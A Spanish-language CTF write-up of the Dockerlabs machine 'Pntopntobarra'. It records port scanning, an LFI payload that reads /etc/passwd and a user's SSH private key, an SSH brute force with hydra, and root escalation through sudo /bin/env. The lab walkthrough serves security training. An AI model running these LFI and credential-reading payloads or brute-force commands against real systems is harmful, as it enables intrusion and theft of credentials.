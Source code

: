 
# Writeup Template: Maquina `[Pntopntobarra]`

- Tags: #Pntopntobarra
- Dificultad: `[ Facil ]`
- Plataforma: `[ Dockerlabs ]`

---
## Enlace al laboratorio
[Maquina Pntopntobarra ](https://mega.nz/file/AXEATCAT#fDXuqEr2xZUx_mu2mG_2LucVDPBo6mcT8YR8zQEHqeI)

## Configuración del Entorno
```bash
# Comandos para desplegar el laboratorio
7z x pntopntobarra.zip
sudo bash auto_deploy.sh pntopntobarra.tar
```

---

## Fase de Reconocimiento

### Direccion IP del Target
```bash
172.17.0.2
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 172.17.0.2
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 172.17.0.2
# TTL: [ 64 ] -> [ Linux ]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 172.17.0.2 -p 1-65000 

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sC -sV -p22,80 172.17.0.2 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.61 ((DebianSid))
```
---

## Enumeracion de [Servicio  Principal]
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://172.17.0.2 # No reporta nada critico
```

Lanzamos un script de **Nmap** para reconocimiento de rutas
```bash
 nmap --script http-enum -p 80 172.17.0.2 # No reporta nada critico
```
### Descubrimiento de Rutas
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

**Hallazgos Relevantes:**
	No repota nada critico
### Descubrimiento de Archivos
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back.backup,sh,txt
```

- **Hallazgos**:
```bash
/index.php (Status: 200) [Size: 1534]
```

Tenemos este parametro que verificaremos si es vulnerable:
```bash
172.17.0.2/ejemplos.php?images=./ejemplo1.png
```

Intentaremos probar un **LFI**:
```bash
http://172.17.0.2/ejemplos.php?images=/etc/passwd
```

Logrando tener exito:
```bash
http://172.17.0.2/ejemplos.php?images=/etc/passwd
```

Tenemos capacidad de listar los archivos del sistema, Detectamos este usuario del sistema:
```bash
nico:x:1000:1000:,,,:/home/nico:/bin/bash
```

### Credenciales Encontradas
- Usuario: `[ nico ]`
- Contraseña: `[  ]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Una ves detectado este usuario usaremos **hydra** para realizar un ataque de fuerza bruta por **ssh** para este usuario:

### Ejecucion del Ataque
```bash
# Comandos para explotación
hydra -l nico -P /usr/share/wordlists/rockyou.txt -f -t 64 ssh://172.17.0.2
```

Tenemos la contrasena de este usuario:
```bash
login: nico password: lovely
```

Por alguna razon no nos otorga acceso lo que aremos es ver su clave: **( id_rsa )** de este usuario, Para despues intentar conectarnos con su llave
```bash
view-source:http://172.17.0.2/ejemplos.php?images=../../../home/nico/.ssh/id_rsa
```

Ahora que podemos verla nos copiamos esa clave para crear un archivo:
```bash
touch id_rsa # Aqui metemos el contenido
chmod 600 id_rsa
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh -i id_rsa nico@172.17.0.2
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l
```

```bash
User nico may run the following commands on 9cc9c559a864:
    (ALL) NOPASSWD: /bin/env
```

**Hallazgos Clave:**
- Binario con privilegios: `[ /bin/env ]`
- Credenciales de usuario: `[ nico ]:[ ]`

### Explotacion de Privilegios

###### Usuario `[ Nico ]`:

```bash
# Comando para escalar al usuario: ( root )
sudo -u root /bin/env /bin/bash -p
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@9cc9c559a864:/home/nico# whoami
root
```

---

## Lecciones Aprendidas
1. Aprendimos a explotar un **LFI**
2. Aprendimos a extraer la clave privada: **( id_rsa )** atraves de un **LFI**

## Recomendaciones de Seguridad
- Proteger el sistema contra ataques **LFI**